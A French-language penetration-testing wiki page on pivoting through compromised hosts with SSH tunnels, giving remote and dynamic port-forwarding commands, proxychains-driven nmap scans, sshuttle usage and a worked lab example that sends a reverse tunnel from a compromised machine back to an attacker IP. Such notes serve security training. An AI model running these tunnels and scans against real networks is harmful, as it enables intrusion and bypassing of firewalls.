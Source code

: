 ```yaml
---
title: Proxy SSH
permalink: /Proxy_SSH/
---
```


# Proxy SSH

Remote Port Forwarding with SSH
-------------------------------

On a compromis l'ĥôte 10.3.3.99 et on cherche à créer un tunnel SSH avec l'attaquant 192.168.30.229. Il suffit de lancer la commande suivante sur 10.3.3.99

``` bash
ssh -f -N -p 80 192.168.30.229 -R 8080:10.3.3.99:80
```

Ceci permettra à l'attaquant d'accéder 10.3.3.99:80 en accédant à localhost:8080.

La commande générique est:

``` bash
ssh -f -N -p <authorized port> <attacker ip> -R <port to bind on attacker>:<target ip>:<target port>
```

Dynamic Port Forwarding with SSH
--------------------------------

Ceci permet se mettre un *dynamic port forwarding* vers 192.168.31.251:

``` bash
ssh -f -N -D 8888 root@192.168.31.251
```

La commande générique est:

``` bash
ssh -f -N -D <local proxy port> <target>
```

On peut ensuite utiliser localhost:8888 en tant que proxy SOCKS (avec proxychains ou le navigateur web).

Outils
------

### Proxychains

Utiliser [Proxychains-NG](https://github.com/rofl0r/proxychains-ng) avec nmap. Il est nécessaire de faire des *Full Connect Scan*:

``` bash
proxychains nmap -sT -F -sV -A -O -PN 10.1.1.246
```

### SSHuttle

L'outil [sshuttle](https://github.com/apenwarr/sshuttle), permet de mettre facilement en place un tunnel SSH:

``` bash
./sshuttle -r sean@192.168.31.251 10.0.0.0/8 -vv
```

### Autres

[EgressBuster](https://github.com/trustedsec/egressbuster)

Exemple Complet
---------------

We want to access 10.3.3.99 on port 80 with firefox. On cherche a accéder à 10.3.3.99:80 avec firefox.

Le réseau est le suivant:

``` bash
Attacker [192.168.30.229]
Firewall [192.168.31.251]

Sean-Desktop [10.1.1.246]
Firewall [10.1.1.251]

Bill [10.3.3.44]
Jim [10.3.3.99]
```

On utilise **sshuttle** pour accéder au réseau 10.1.1.0/24

``` bash
~/utils/sshuttle -r sean@192.168.31.251 10.1.1.0/24 -vv
```

Ensuite on compromet Bill et on met en place un remote port forwarding jusqu'à l'attaquant pour pouvoir accéder au port 22 sur Bill depuis la machine de l'attaquant:

``` bash
ssh -f -N -R 2222:127.0.0.1:22 -p 80 root@192.168.30.229
```

On mets ensuite en place un *dynamic port forwarding*:

``` bash
ssh -f -N -D 8080 -p2222 bill@127.0.0.1
```

On peut ensuite configurer iceweasel pour utiliser localhost:8080 comme proxy SOCKS.

Resources
---------

-   [Dynamic Port Forwarding](http://netsec.ws/?p=278)


